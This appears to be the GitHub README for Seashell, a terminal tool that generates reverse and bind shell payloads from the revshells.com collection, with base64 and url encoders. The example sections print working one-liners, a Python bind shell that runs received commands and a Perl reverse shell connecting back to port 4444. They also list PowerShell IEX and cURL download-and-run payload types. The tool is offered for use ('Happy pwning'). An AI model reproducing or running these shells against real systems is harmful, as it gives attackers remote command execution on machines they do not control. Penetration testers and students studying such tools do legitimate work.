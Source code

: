 # Seashell
Seashell is a python tool for generating shells on the go!
It uses the database of [revshells.com](https://revshells.com) and offers the same functionality. Only difference being, it's in your terminal!

[seashell PoC demo](https://github.com/lil-skelly/seashell/assets/80885284/65ed8213-6e54-4a22-b1ad-4bac9afc706c)

# Credits
I want to thank [@0dayCTF](https://github.com/0dayCTF) and all the contributors of [reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator) for making this project possible.

# Installation
Seashell does not use **ANY** external libraries so you can install it in seconds :D
```bash
$ git clone https://github.com/lil-skelly/seashell
[ ]
$ cd seashell && python3 -m pip install .
```
## NEW: Payload encoders
With this [commit](https://github.com/lil-skelly/seashell/commit/19b1796355ba3eae6b23317ef6dbc5cc4ffae32e), seashell now added support for payload encoders.
As of now there are 2 encoders available: **base64** and **url**. You can also specify the number of iterations the encoder will run through your payload using the `--iterations` argument.

[Payload encoding with iterations PoC](https://github.com/user-attachments/assets/7155e970-fc7e-462f-b582-0bbbf23ef44e)


# Usage
```bash
usage: python3 -m seashell [-h] [--verbose] [-os {windows,mac,linux}] [-ip IP] [-p PORT]
                           [--type {reverse,bind,msfvenom,hoaxshell,listeners}]
                           [--shell {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}]
                           [-P PAYLOAD] [--interactive] [--output OUTPUT] [--encoder {base64,url}]
                           [--iterations {1,2,3,4,5}]
                           [term]

Seashell is a CLI 'reverse' shell generator utility. Happy hacking!

positional arguments:
  term                  Search term to filter payloads (use list to list payloads).

options:
  -h, --help            show this help message and exit
  --verbose, -V, -v     Sets logging level to [DEBUG]
  -os {windows,mac,linux}, -o {windows,mac,linux}
                        Filters results for [given] operating system
  -ip IP                Target IP
  -p PORT, --port PORT  Target port
  --type {reverse,bind,msfvenom,hoaxshell,listeners}, -T {reverse,bind,msfvenom,hoaxshell,listeners}
                        Filters results for [given] payload type
  --shell {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}, -S {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}
                        Shell to use
  -P PAYLOAD, --payload PAYLOAD
                        metasploit payload to use for listener [msfconsole]
  --interactive, -i     Enables interactive mode. Any arguments besides -V will be ignored!
  --output OUTPUT, -O OUTPUT
                        Store payload to file
  --encoder {base64,url}, -e {base64,url}
                        The encoder to use
  --iterations {1,2,3,4,5}, -I {1,2,3,4,5}
                        The number of times to encode the payload
```

Seashell filters your results based on the shell type and OS specified. 

Use `list` as the search `term` on both manual and interactive mode to get a list of all the payloads available, matching the specified OS/Shell type.

If you do not find your desired payloads, it might be because the payload you are looking for is not available for *linux* systems (the default OS used by seashell). ~ Example 3

After finding the ID of the payload you desire to use, you can:
- Repeat the command and use the ID as the search `term` if in manual mode
- Type `use ID` if in interactive mode

Seashell will then select the appropriate payload.

- Now you can also list listeners to host your payload. Same way as you would list reverse shell payloads etc.

**NEW**
If you want to store the generated shell in a file, you can use the `--output/-O` argument in both modes.

### Special arguments
- `-S/--shell <SHELL>`: You can specify a *shell* to use (i.e `/bin/bash` or `zsh`) as a command line argument
- `-P <PAYLOAD>` You can specify a metasploit payload to use in certain payloads as a command line argument.

## Examples:

- Manual mode
```bash
$ python -m seashell -ip localhost -p 1234 -T bind python
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Python3 Bind         70
[*] PHP Bind             71

$ python -m seashell -ip localhost -p 1234 -T bind 70
[*] Welcome to the sea of shells! Happy pwning >:)
[+] Using <Python3 Bind>
python3 -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
- Interactive mode:
```bash
$ python -m seashell -i
[+] Welcome to the sea of shells! Happy pwning >:)
~> Enter the IP: localhost
~> Specify the port (default: 4444): 
~> Filter by OS [LINUX, mac, windows]: 
~> Select payload type [REVERSE, bind, msfvenom, hoaxshell]:  
[SEARCH] perl
[*] Perl                 20
[*] Perl no sh           21
[*] curl                 13
[*] telnet               60
[SEARCH] use 21
[+] Using <Perl no sh>
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"127.0.0.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Payload listing in manual mode
```bash
$ python -m seashell -ip localhost -os windows -T hoaxshell list
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Windows CMD cURL     94
[*] PowerShell IEX       95
[*] PowerShell IEX Constr Lang Mode 96
[*] PowerShell Outfile   97
[*] PowerShell Outfile Constr Lang Mode 98
[*] Windows CMD cURL https 99
[*] PowerShell IEX https 100
[*] PowerShell Constr Lang Mode IEX https 101
[*] PowerShell Outfile https 102
[*] PowerShell Outfile Constr Lang Mode https 103
```
